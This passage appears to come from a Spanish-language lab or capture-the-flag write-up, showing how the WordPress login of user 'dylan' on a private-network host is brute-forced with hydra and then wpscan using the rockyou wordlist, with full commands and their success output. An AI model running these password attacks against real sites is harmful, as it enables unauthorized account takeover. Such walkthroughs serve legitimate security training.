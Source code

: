 
<h2 id="FBruta">Aplicando Fuerza Bruta a login de WordPress y Aplicando Fuerza Bruta con wpscan</h2>

Primero, vamos a aplicar fuerza bruta al login de **WordPress**, utilizando la herramienta **hydra**.

Debemos indicarle la ruta del login y los parámetros donde se debe agregar el usuario y contraseña, además de que debemos poner una redirección para el caso que sea exitoso:
```bash
hydra -l dylan -P /usr/share/wordlists/rockyou.txt 192.168.1.130 http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:S=302'
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-27 14:46:58
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.1.130:80/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:S=302
[80][http-post-form] host: 192.168.1.130   login: dylan   password: ******
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-27 14:47:11
```
Muy bien, tenemos la contraseña.

Antes de probarla, vamos a utilizar **wpscan** para que aplique fuerza bruta y encuentre la contraseña del **usuario dylan**.
```bash
wpscan --url http://192.168.1.130/wordpress/ -U dylan -P /usr/share/wordlists/rockyou.txt --no-banner --disable-tls-checks
[+] URL: http://192.168.1.130/wordpress/ [192.168.1.130]
[+] Started: Thu Feb 27 14:58:44 2025
...
...
[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - dylan / ******
Trying dylan / soccer Time: 00:00:00 <                             > (30 / 14344422)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: dylan, Password: ******

[+] Finished: Thu Feb 27 14:58:48 2025
[+] Requests Done: 36
[+] Cached Requests: 3
[+] Data Sent: 13.211 KB
[+] Data Received: 353.66 KB
[+] Memory used: 259.406 MB
[+] Elapsed time: 00:00:04
```
